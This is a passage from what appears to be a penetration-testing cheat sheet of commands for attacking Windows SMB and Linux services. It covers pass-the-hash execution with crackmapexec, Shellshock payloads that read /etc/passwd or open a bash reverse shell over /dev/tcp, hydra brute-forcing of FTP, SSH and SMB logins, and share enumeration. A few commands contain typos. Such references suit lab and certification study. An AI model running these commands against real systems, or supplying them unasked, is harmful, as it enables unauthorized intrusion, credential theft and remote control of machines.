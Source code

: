 to exploit
-> with metasploit `search smb/psexec`
For this module you need to set target (command/native upload/...) and you need the LM:NTLM hash, not only the NTML hash 
-> with crachmapexec `crackmapexec smb $ip -u administrator -H $NTLM_hash- x "ifconfig"`



# Linux

## Exploiting Shellshock
nmap: `nmap -sV $ip --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"`

inject payload in User-Agent header with burpsuite: `() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'`
inject payload in User-Agent header with burpsuite: `() { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/$ip/$port 0>&1'`

metasploit: `search shellshock`
metasploit: `search http/apache_mod_cgi`
You need to specify the $target_ip and the $target_uri


## FTP
port 21, and there are many ftp service like proFTP
**Bruteforce**: `hydra -L users.txt -P passwords.txt $ip ftp`
**metasploit**: `search ProFTP`
**searchsploit**: `searchsploit ProFTP`


## SSH
port 22 
**Bruteforce**: `hydra -L users.txt -P passwords.txt $ip ssh`


## SAMBA
port 445, old version of samba is NetBios port 139

**hydra**: to bruteforce `hydra -L users.txt -P passwords.txt $ip smb`

**metasploit**: to bruteforce `search smb_login`

**smbmap**: to enumerate the shares `smbmap -H $ip -u admin -p password123`

**smbclient**: to enumerate the shares `smbclient -L $ip -U admin`

**smbclient**: to access the shares `smbclient //$ip/folderToAccess -U admin`

**emum4linux**: to enumerate all informations about the OS `enum4linux -a $ip`



## Privilege Escalation
**tools**: linux-exploit-suggester
